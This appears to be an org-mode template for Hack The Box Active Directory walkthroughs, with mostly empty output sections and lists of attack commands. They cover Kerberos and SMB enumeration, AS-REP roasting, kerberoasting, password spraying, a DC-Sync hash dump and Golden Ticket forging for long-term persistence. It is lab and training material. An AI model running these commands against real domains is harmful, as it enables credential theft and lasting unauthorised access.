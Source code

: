 #+filetags: :Box:HTB:Easy:Windows:LDAP:ActiveDirectory:
#+HUGO_BASE_DIR: ~/Dropbox/40-49_Career/44-Blog/bloodstiller
#+HUGO_SECTION:
#+hugo_custom_front_matter: :draft true
#+hugo_custom_front_matter: :title "<boxName> HTB Walkthrough"
#+hugo_custom_front_matter: :author bloodstiller
#+hugo_custom_front_matter: :date 2024-10-10
:HIDDEN:
#+STARTUP: overview
#+STARTUP: hidestars
#+STARTUP: indent
#+STARTUP: entitiespretty
#+STARTUP: inlineimages
#+OPTIONS: H:4 toc:nil num:nil \n:nil ':nil *:t -:t ::t <:t ^:{} _:{} |:t f:t d:nil
#+OPTIONS: tex:mathjax tags:not-in-toc tasks:t title:nil
#+COLUMNS: %80ITEM %TAGS %TODO %SCHEDULED
#+TODO: TODO(t) IN-PROGRESS(i) NOTES(m) RABBITHOLE!(R) | DONE(d!) HOLD(h) WONT-DO(n)
:END:


* <boxName> Hack The Box Walkthrough/Writeup:
:PROPERTIES:
:ID:       e3f25c99-179f-461d-9310-dd1f026d4ec1
:END:
- https://app.hackthebox.com/machines/<boxName>

* How I use variables & Wordlists:
:PROPERTIES:
:ID:       807d55ef-43ab-462f-9307-7d03330b72d2
:END:
- *Variables*:
  - In my commands you are going to see me use ~$box~, ~$user~, ~$hash~, ~$domain~, ~$pass~ often.
    - I find the easiest way to eliminate type-os & to streamline my process it is easier to store important information in variables & aliases.
      - ~$box~ = The IP of the box
      - ~$pass~ = Passwords I have access to.
      - ~$user~ = current user I am enumerating with.
        - Depending on where I am in the process this can change if I move laterally.
      - ~$domain~ = the domain name e.g. ~sugarape.local~ or ~contoso.local~
      - ~$machine~ = the machine name e.g. ~DC01~
    - Why am I telling you this? People of all different levels read these writeups/walktrhoughs and I want to make it as easy as possible for people to follow along and take in valuable information.

- *Wordlists*:

  - I have symlinks all setup so I can get to my passwords from ~~/Wordlists~ so if you see me using that path that's why. If you are on Kali and following on, you will need to go to ~/usr/share/wordlists~
    - I also use these additional wordlists:
      - [[https://github.com/insidetrust/statistically-likely-usernames][Statistically-likely-usernames]]
      - [[https://github.com/danielmiessler/SecLists][SecLists]]
      - [[https://github.com/carlospolop/Auto_Wordlists][Auto_Wordlists]]
* 1. Enumeration:
:PROPERTIES:
:ID:       df114f61-f09f-46bc-a9d0-e1e62bf4d249
:END:
** Assumed Breach Box:
:PROPERTIES:
:ID:       8fdc027e-d7a4-4f54-9c83-4b9d26aa1453
:END:
- This box scenario assumes that the Active Directory (AD) environment has already been breached and that we have access to valid credentials.
- This approach reflects a more realistic model, given that direct breaches of AD environments from external footholds are increasingly rare today.
- +Note+:
  - Even with assumed credentials, I’ll still conduct my standard enumeration process as if I don’t have them.
    - This ensures I don’t overlook any findings just because access is available.
    - Comprehensive documentation of all discoveries remains essential.
** NMAP:
:PROPERTIES:
:ID:       0d42892c-fad3-4440-834b-6ebf6c6f41c3
:END:
*** Basic Scans:
:PROPERTIES:
:ID:       13dd3494-95f0-4c4b-b6b8-85ce11fff991
:END:
+ *Basic TCP Scan*:
  - ~nmap $box -Pn -oA TCPbasicScan~
    #+begin_src shell

    #+end_src
  - *Initial thoughts*:

+ *Basic UDP Scan*:
  - ~sudo nmap $box -sU -Pn -oA UDPbasicScan~
#+begin_src shell

#+end_src
  - *Initial thoughts*:

*** Comprehensive Scans:
:PROPERTIES:
:ID:       38e2ad58-d516-494e-bb6e-0003582ce978
:END:
+ *In depth scan TCP*:
  - ~sudo nmap -p- -sV -sC -O -Pn --disable-arp-ping $box -oA FullTCP~
  #+begin_src shell

  #+end_src
  - *Findings*:

+ *In depth scan UDP*:
  - ~sudo nmap -p- -sU -sV -sC -O -Pn --disable-arp-ping $box -oA FullTCP~
  #+begin_src shell

  #+end_src
  - *Findings*:

** LDAP ~389~:
:PROPERTIES:
:ID:       2e42dbd8-49e7-4c58-84d5-19908110e112
:END:
*** Using LDAP anonymous bind to enumerate further:
:PROPERTIES:
:ID:       a04b2460-1898-47e3-924f-ebdd9b1ebb18
:END:
  - If you are unsure of what anonymous bind does. It enables us to query for domain information anonymously, e.g. without passing credentials.
    - We can actually retrieve a significant amount of information via anonymous bind such as:
      - A list of all users
      - A list of all groups
      - A list of all computers.
      - User account attributes.
      - The domain password policy.
      - Enumerate users who are susceptible to AS-REPRoasting.
      - Passwords stored in the description fields
    - The added benefit of using ldap to perform these queries is that these are most likely not going to trigger any sort of AV etc as ldap is how AD communicates.

  - I actually have a handy script to check if anonymous bind is enabled & if it is to dump a large amount of information. You can find it here
    - https://github.com/bloodstiller/ldapire
    - https://bloodstiller.com/cheatsheets/ldap-cheatsheet/#ldap-boxes-on-htb
      - ~python3 /home/kali/windowsTools/enumeration/ldapire.py $box~
        - It will dump general information & also detailed & simple information including:
          - Groups
          - Users
  - It turns out the anonymous bind is not enabled and we get the below information. I have removed the majority of the information as it is not relevant, however there are some keys bits of information we can use moving forward.

    A) _We have the naming context of the domain_:
         #+begin_src shell
  kali in ~/Desktop/WindowsTools 🐍 v3.12.6  2GiB/15GiB | 0B/1GiB with /usr/bin/zsh
  🕙 08:50:47 zsh ❯ python3 ldapchecker.py $box
  Attempting to connect to 10.129.229.239 with SSL...
  Connected successfully. Retrieving server information...
  DSA info (from DSE):
    Supported LDAP versions: 3, 2
    Naming contexts:
      DC=outdated,DC=htb
      CN=Configuration,DC=outdated,DC=htb
      CN=Schema,CN=Configuration,DC=outdated,DC=htb
      DC=DomainDnsZones,DC=outdated,DC=htb
      DC=ForestDnsZones,DC=outdated,DC=htb
      #+END_SRC

    B) _We have the domain functionality level_:
        #+begin_src shell
  Other:
    domainFunctionality:
      7
    forestFunctionality:
      7
    domainControllerFunctionality:
      7
    rootDomainNamingContext:
      DC=outdated,DC=htb
    ldapServiceName:
      outdated.htb:dc$@OUTDATED.HTB
        #+end_src
       - The functionality level determines the minimum version of Windows server that can be used for a DC.
         - +Note+: that any host os can be used on *workstations*, however the functionality level determines what the minimum version for DC's and the forest.
         - https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/active-directory-functional-levels
         - Knowing the function level is useful as if want to target the DC's and servers, we can know by looking at the function level what the minimum level of OS would be.

         - In this case we can see it is level 7 which means that this server has to be running Windows Server 2016 or newer.
         - Here’s a list of functional level numbers and their corresponding Windows Server operating systems:

           | Functional Level Number | Corresponding OS            |
           |                       0 | Windows 2000                |
           |                       1 | Windows Server 2003 Interim |
           |                       2 | Windows Server 2003         |
           |                       3 | Windows Server 2008         |
           |                       4 | Windows Server 2008 R2      |
           |                       5 | Windows Server 2012         |
           |                       6 | Windows Server 2012 R2      |
           |                       7 | Windows Server 2016         |
           |                       8 | Windows Server 2019         |
           |                       9 | Windows Server 2022         |

           - +Note+:
             - Each number corresponds to the minimum Windows Server version required for domain controllers in the domain or forest.
             - As the functional level increases, additional Active Directory features become available, but older versions of Windows Server may not be supported as domain controllers.

    C) _We have the full server name_:
       - Again we can see this has the CN as the base (mentioned previously.)
         #+begin_src shell
  serverName:
      CN=DC,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=outdated,DC=htb
         #+end_src
  - It's pretty amazing already what we have learned just by running some fairly simple ldap queries.
    + We have the naming context.
    + Domain name.

*** Updating ETC/HOSTS & Variables:
:PROPERTIES:
:ID:       70c39e1a-91a2-4102-898c-d195b5b42155
:END:
- *Updated Domain & Machine Variables for Testing*:
  - Now that I have this information, I can update the ~domain~ and ~machine~ variables used in tests:
    - ~update_var domain "certified.htb"~
    - ~update_var machine "DC01"~

- *Updating ~/etc/hosts~ for DNS and LDAP Queries*:
  - I update my ~/etc/hosts~ file to enable tools like [[https://github.com/ropnop/kerbrute][kerbrute]] for user enumeration and other tools that require DNS or LDAP for queries:
    - ~echo "$box   $domain $machine.$domain" | sudo tee -a /etc/hosts~

*** Syncing Clocks for Kerberos Exploitation:
:PROPERTIES:
:ID:       d2509b2d-ec58-4483-9d01-3915d8957dc8
:END:
- Since Kerberos is enabled on this host, it's best practice to sync our clock with the host’s. This helps avoid issues from clock misalignment, which can cause false negatives in Kerberos exploitation attempts.
  - ~sudo ntpdate -s $domain~
  - +Note+: I am doing this now as we have the DNS name etc.

** DNS ~53~:
:PROPERTIES:
:ID:       72e6c6aa-a991-4b59-8a1d-9c1967f71edb
:END:
- *Using dnsenum to enumerate DNS entries*:
  - ~dnsenum -r --dnsserver $box --enum -p 0 -s 0 -f ~/Wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt $domain~
** Kerberos ~88~:
:PROPERTIES:
:ID:       1a19d7f9-b46c-44e4-902f-dbeb85742df5
:END:
*** Using [[https://github.com/ropnop/kerbrute][Kerbrute]] to bruteforce Usernames:
:PROPERTIES:
:ID:       e9be28c8-168a-48a0-8bc2-f467a8ae3ed8
:END:
- As kerberos is present we can enumerate users using [[https://github.com/ropnop/kerbrute][kerbrute]]:
  - ~kerbrute userenum -d $domain --dc $box ~/Wordlists/statistically-likely-usernames/jsmith.txt~
*** Using netexec for ASReproasting:
:PROPERTIES:
:ID:       b16a1594-64e3-42e9-ae39-168baab3c1b9
:END:
- *We should always try and asreproast with a null/guest session as it can lead to an easy win*:
  - ~netexec ldap $box -u '' -p '' --asreproast asrep.txt~
  - ~netexec ldap $box -u guest -p '' --asreproast asrep.txt~
*** Using netexec for Kerberoasting:
:PROPERTIES:
:ID:       9c9985bd-717a-48a9-b628-ce8633a5acba
:END:
- *As we have creds we can kerberoast*:
  - ~netexec ldap $box -u $user -p $pass --kerberoast kerb.txt~
** SMB ~445~:
:PROPERTIES:
:ID:       4f2c7ccb-eaa6-4a32-95c4-87545fd949d6
:END:
*** Attempting to connect with NULL & Guest sessions:
:PROPERTIES:
:ID:       fc63ee15-d711-4a53-818d-b4138791f6e4
:END:
- *This is a standard check I always try as alot of the time the guest account or null sessions can lead to a foothold*:
  - ~netexec smb $box -u 'guest' -p '' --shares~
  - ~netexec smb $box -u '' -p '' --shares~

*** Trying Usernames as Passwords:
:PROPERTIES:
:ID:       51b5cc92-1537-42c7-9e51-a41685758ef6
:END:
- *I always try usernames as passwords as well*:
  - ~netexec smb $box -u Users.txt -p Users.txt --shares --continue-on-success | grep [+]~
*** Using smbclient:
:PROPERTIES:
:ID:       57c70b81-c003-468c-954f-add9c67c22fb
:END:
- ~smbclient -U 'guest' "\\\\$box\\<share>"~
*** Enumerating Users with Impacket-lookupsid:
:PROPERTIES:
:ID:       edf3f6be-05e3-4dcf-ab38-7b228174cd29
:END:
- *We can use* ~impacket-lookupsid~ *to enumerate users on the domain*:
  - ~impacket-lookupsid $domain/guest@$machine.$domain -domain-sids~
  - ~impacket-lookupsid guest@$box -domain-sids -no-pass~
  - +Note+: As we are using the "Guest" account we can just hit enter for a blank password

** Web ~80~:
:PROPERTIES:
:ID:       d4efb869-5997-4ab8-8e37-f60f433f7e95
:END:
- *Web Enumeration via Burp Suite*:
  - When enumerating a website, always use Burp Suite. This allows you to:
  - Record all potential injection points.
  - Capture relevant responses for each request, making it easier to analyze vulnerabilities and track your testing progress.
*** Enumerating Injection Points:
:PROPERTIES:
:ID:       1c3b10db-c43e-40bd-a27c-fbd91296b3fa
:END:
*** Dirbusting the webserver using ffuf:
:PROPERTIES:
:ID:       2662f823-d569-4552-8ed3-e48978b5dedb
:END:
- *I Perform some directory busting to see if there are any interesting directories*:
  - ~ffuf -w ~/Wordlists/seclists/Discovery/Web-Content/raft-large-directories.txt -u http://$box/FUZZ -fc 403 -ic~
** RPC:
:PROPERTIES:
:ID:       224bdc39-b44b-4c8c-a54b-128716a6f5fa
:END:
- *As we have valid credentials we can also connect to RPC to enumerate further*:
  - ~rpcclient -U $user $box~

- +Cheatsheet+: I have an enumertion & attacking cheatsheet for RPC, available here:
  - https://bloodstiller.com/cheatsheets/rpc-cheatsheet/#enumerating-rpc-using-rpcclient

- *Null session via RPC*:
  - Much like SMB you can also connect to RPC via null & guest sessions, let's see if they are valid here:
    - ~rpcclient -U "" $box~
    - ~rpcclient -U '%' $box~
*** Enumerating domain users via RPC:
:PROPERTIES:
:ID:       5f636d7c-754a-4422-86e5-d2c6f29cd141
:END:
- *We can enumerate all the users of the domain via RPC*:
  - ~enumdomusers~

- *Querying individual users*:
  - Once we have the RID's as displayed above we can enumerate each user further. This is useful to discover if they have anything interesting in their "Description fields etc"
  - ~queryuser [RID]~
*** Enumerating groups via RPC:
:PROPERTIES:
:ID:       7f587aa4-d279-42fb-a234-707b295df4ed
:END:
- *We can also enumerate groups*:
  - ~enumdomgroups~

- *Querying individual groups*:
  - Once we have the RID's as displayed above we can enumerate each group further. Just like we did with users.
  - ~querygroup [RID]~
* 2. Foothold:
:PROPERTIES:
:ID:       12cad379-c0d0-4c07-8b2c-28440c2582cf
:END:
1.
* 3. Privilege Escalation:
:PROPERTIES:
:ID:       d9e6b559-a369-42b5-92da-4ccd104efb1c
:END:
1.
* 4. Persistence:
:PROPERTIES:
:ID:       37a8061a-df18-452e-a13a-025297fb661f
:END:
** Dumping NTDS.dit/DC-SYNC attack:
:PROPERTIES:
:ID:       43858f16-d1b9-48be-a790-bfbd13b17275
:END:
- *Perform DC-Sync attack using netexec*:
  - ~netexec smb $box -u $user -p $pass -M ntdsutil~

- *Extract all hashes from netexec*
  - ~for file in /home/kali/.nxc/logs/*.ntds; do cat "$file" | cut -d ':' -f1,2,4 --output-delimiter=' ' | awk '{print $3, $2, $1}'; printf '\n'; done~

** Creating a Kerberos Golden Ticket:
:PROPERTIES:
:ID:       7e540f36-bd29-450a-a2af-b11be5822f4d
:END:

+ *Using* ~impacket-lookupsid~ *to get the Search for the Domain SID*:
  - ~impacket-lookupsid $domain/$user@$machine.$domain -domain-sids~

+ *Using* ~impacket-secretsdump~ *to retrieve the aeskey*:
  - ~impacket-secretsdump $domain/$user:$pass@$box~
  - ~impacket-secretsdump $domain/$user@$box -hashes :$hash~
  - ~impacket-secretsdump $domain/$user:$pass@$box~


+ *Sync our clock to the host using ntupdate*:
  - ~sudo ntpdate -s $domain~
  - ~faketime "$(ntpdate -q $domain | cut -d ' ' -f 1,2)"~


+ *Using* ~impacket-ticketer~ *to create the Golden Ticket*:
  - ~impacket-ticketer -nthash $krbtgt -domain-sid $sid -domain $domain Administrator~

+ *Export the ticket to the* ~KRB5CCNAME~ *Variable*:
  - ~export KRB5CCNAME=./Administrator.ccache~

+ *Use the ticket for connecting via* ~psexec~
  - ~impacket-psexec -k -no-pass $machine.$domain~

*** Why create a golden ticket?
:PROPERTIES:
:ID:       5a887352-90e5-435b-9d34-06b32b32d0a5
:END:
- "But bloodstiller why are you making a golden ticket if you have the admin hash?" Glad you asked:
  - Creating a Golden Ticket during an engagement is a reliable way to maintain access over the long haul. Here’s why:
  - ~KRBTGT~ *Hash Dependence*:
    - Golden Tickets are generated using the ~KRBTGT~ account hash from the target’s domain controller.
    - Unlike user account passwords, ~KRBTGT~ hashes are rarely rotated (and in many organizations, they are never changed), so the Golden Ticket remains valid indefinitely.
  - ~KRBTGT~ *Hash—The Key to It All (for upto 10 years)*:
    - A Golden Ticket can allow you to maintain access to a system for up to 10 years (yeah, you read that right the default lifespan of a golden ticket is 10 years) without needing additional credentials.
    - This makes it a reliable backdoor, especially if re-access is needed long after initial entry.
    - *Think about it*: even if they reset every user’s password (including the administrator etc) your Golden Ticket is still valid because it’s tied to the ~KRBTGT~ account, not individual users.
* Lessons Learned:
:PROPERTIES:
:ID:       2c027237-8833-4750-a7e7-4282b86b6b75
:END:
** What did I learn?
:PROPERTIES:
:ID:       6fe78ec6-f538-4653-a4de-987388927bb7
:END:
  1.
  2.
  3.
** What silly mistakes did I make?
:PROPERTIES:
:ID:       9c617b79-9173-496c-a4eb-7d43fb807aee
:END:
  1.
  2.

* Sign off:
:PROPERTIES:
:ID:       52ccdf4f-ff0e-405d-aa9b-42ea204b741b
:END:

Remember, folks as always: with great power comes great pwnage. Use this knowledge wisely, and always stay on the right side of the law!

Until next time, hack the planet!

-- Bloodstiller

-- Get in touch bloodstiller at proton dot me

* +CREDS+:
:PROPERTIES:
:ID:       6c2b5bb7-14bf-4c0d-8b05-2f25e346f0c6
:END:
** Compiled Usernames, Passwords & Hashes:
:PROPERTIES:
:ID:       4f5a86e1-5b54-49c8-a9be-b5e20e3f63bd
:END:
*** Usernames:
:PROPERTIES:
:header-args: :tangle Users.txt :mkdirp yes :perms
:ID:       70c0d96c-a165-436a-984f-d6c3518b9eaf
:END:
#+begin_src text
Administrator
Guest
Root
krbtgt
Admin
#+end_src

*** Passwords:
:PROPERTIES:
:header-args: :tangle Passwords.txt :mkdirp yes :perms
:ID:       15f28104-49ee-43ab-8b58-599d79233039
:END:
#+begin_src text

#+end_src

*** Email Names:
:PROPERTIES:
:header-args: :tangle Emails.txt :mkdirp yes :perms
:ID:       6f5c0eaa-5976-4347-874e-399a302eed66
:END:

#+begin_src text
#+end_src
*** Username & Pass:
:PROPERTIES:
:ID:       c1b57e7a-7037-43ab-9082-4f173be9323f
:END:
#+begin_src text

#+end_src


*** Hashes:
:PROPERTIES:
:header-args: :tangle Hashes.txt :mkdirp yes :perms
:ID:       efdd9b2b-1a20-40d7-b99c-eac4b22b1f0a
:END:
- *Extract all hashes from netexec*
  - *Extract only enabled hashes*:
    - ~grep -iv disabled /home/kali/.nxc/logs/*.ntds | cut -d ':' -f2,5 --output-delimiter=' ' | awk '{print $2, $1}'~
  - *Extract all hashes*
    - ~cat /home/kali/.nxc/logs/*.ntds | cut -d ':' -f1,2,4 --output-delimiter=' ' | awk '{print $3, $2, $1}'~
    - +Note+: We need to include disabled hashes to get the krbtgt hash in this method as that account is disabled by default.

#+begin_src text

#+end_src

** SSH Keys:
:PROPERTIES:
:ID:       a7494955-ab6b-4500-8d5d-e3fb9ef341bf
:END:
